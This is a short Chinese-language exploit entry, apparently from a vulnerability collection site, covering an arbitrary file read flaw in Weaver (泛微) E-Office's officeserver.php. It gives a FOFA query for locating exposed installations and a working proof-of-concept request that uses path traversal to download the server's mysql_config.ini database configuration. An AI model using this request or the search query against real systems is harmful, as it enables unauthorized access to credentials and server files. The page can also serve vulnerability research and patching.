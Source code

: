 # 泛微OA E-Office officeserver.php 任意文件读取漏洞

## 漏洞描述

泛微OA E-Office officeserver.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>泛微OA E-Office</a-checkbox></br>

## FOFA

<a-checkbox checked>app="泛微-EOffice"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1629190834596-c2c639a7-1fb7-4934-95ad-1d571629e383-20220313185607234.png)

验证POC

```javascript
/iweboffice/officeserver.php?OPTION=LOADFILE&FILENAME=../mysql_config.ini
```

![img](../../../.vuepress/public/img/1646044472614-5b3e654f-bde4-44e4-81b5-184c21585029.png)
